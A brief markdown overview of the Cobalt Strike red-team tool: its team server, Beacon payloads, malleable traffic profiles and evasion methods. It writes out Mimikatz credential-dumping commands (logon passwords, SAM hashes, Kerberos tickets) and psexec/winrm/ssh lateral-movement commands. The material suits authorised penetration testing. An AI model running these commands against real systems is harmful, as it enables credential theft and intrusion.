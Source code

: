 # Cobalt Strike - Advanced Threat Emulation

Commercial penetration testing tool for adversary simulation and red team operations.

## Overview

Cobalt Strike provides advanced capabilities for:
- Command and control infrastructure
- Payload staging and execution
- Post-exploitation activities
- Team collaboration

## Key Components

### Team Server
Central C2 server that coordinates operations.

```bash
# Start team server
./teamserver 192.168.1.100 password malleable.profile

# Connect multiple operators
./cobaltstrike
```

### Beacon Payload
Primary implant for target systems.

```bash
# Generate beacon payloads
Attacks -> Packages -> Windows Executable
Attacks -> Packages -> MS Office Macro
Attacks -> Packages -> HTML Application
```

### Malleable Profiles
Traffic shaping to mimic legitimate applications.

```bash
# Load custom profile
set sample_name "jQuery"
set sleeptime "5000"
set useragent "Mozilla/5.0 (compatible; MSIE 9.0)"
```

## Attack Techniques

### Initial Access
- Spear phishing attachments
- Drive-by downloads
- USB delivery mechanisms

### Lateral Movement
```bash
# PsExec lateral movement
jump psexec target.domain.com beacon_listener

# WMI execution
jump winrm target.domain.com beacon_listener

# SSH key authentication
jump ssh target:22 username beacon_listener
```

### Credential Harvesting
```bash
# Mimikatz integration
mimikatz sekurlsa::logonpasswords
mimikatz lsadump::sam

# Kerberos ticket extraction
mimikatz sekurlsa::tickets
```

## Evasion Techniques

### Process Injection
- Process hollowing
- DLL injection
- Reflective DLL loading

### Traffic Obfuscation
- HTTP/HTTPS malleable profiles
- DNS over HTTPS
- Custom communication protocols

## Reporting and Documentation

Comprehensive reporting features for:
- Attack timeline reconstruction
- IOC generation
- Remediation recommendations

Note: Cobalt Strike requires a commercial license for legitimate use.
